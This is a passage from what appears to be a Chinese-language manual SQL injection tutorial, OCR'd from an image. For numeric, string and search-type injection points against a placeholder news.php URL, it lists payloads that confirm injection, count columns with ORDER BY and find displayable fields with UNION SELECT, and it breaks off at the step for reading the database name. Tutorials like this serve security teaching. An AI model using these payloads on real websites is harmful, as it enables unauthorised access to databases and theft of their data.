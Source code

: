   

输入框中输入

`'` 返回错误

x%' and 1=1 and '%'=' 返回正确

x%' and 1=2 and '%'=' 返回错误

### **判断字段数**

**数字型**

http://www.xxx.cn/news.php?p=1&id=4   order by 26 返回正确

http://www.xxx.cn/news.php?p=1&id=4  order by 27 返回错误

得出结论：字段数26。

  

**字符型**

http://www.xxx.cn/news.php?p=1&id=4   order by 26 # 返回正确

http://www.xxx.cn/news.php?p=1&id=4  order by 27 # 返回错误

得出结论：字段数26。

  

**搜索型**

x%' order by 26 # 返回正确

x%' order by 27 # 返回错误

得出结论：字段数26。

### **寻找可显示字段**

**数字型**

```sql
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,2,3,4,5,6,7,8,9,....
```

  

**字符型**

```sql
http://www.xxx.cn/news.php?p=1&id=4  and 1=2 union select 1,2,3,4,5,6,7,8,9,.... #
```

  

**搜索型**

```sql
x%' and 1=2 union select 1,2,3,4,5,6,7,8,9,.... #
```

### **查数据库名**
